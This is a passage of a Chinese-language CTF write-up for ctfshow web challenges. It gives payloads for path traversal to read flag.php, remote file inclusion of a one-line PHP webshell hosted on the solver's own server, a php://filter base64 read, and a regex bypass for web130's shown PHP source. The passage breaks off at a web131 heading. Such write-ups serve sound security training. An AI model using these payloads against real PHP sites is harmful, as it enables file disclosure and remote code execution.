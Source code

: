 ***第一种***

**readfile**和**highlight_file**类似，路径可以使用绝对路径，在绝对路径之前加几个**../**，最前面的就可以随便写了

`?f=/ctfshow/../../../../../../../var/www/html/flag.php`

***第二种***

远程文件包含，在自己的服务器上写一句话木马进行利用，url为你的服务器ip或者域名，xxxx.txt为你写的一句话木马

```php
?f=http://url/xxxx.txt?ctfshow
```

没打通

***第三种***

使用php伪协议读取

```php
?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
```

+++

### <font color='orange'>web130</font>

+++

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

第一个正则匹配匹配的是`?ctfshow`即**任意字符(或字符串)加ctfshow**,所以单纯的ctfshow没有匹配

第二个**===**，完全等于，返回值会0也不是全等

所以直接POST传`f=ctfshow`就过了

+++

### <font color='orange'>web131(脚本题)</font>
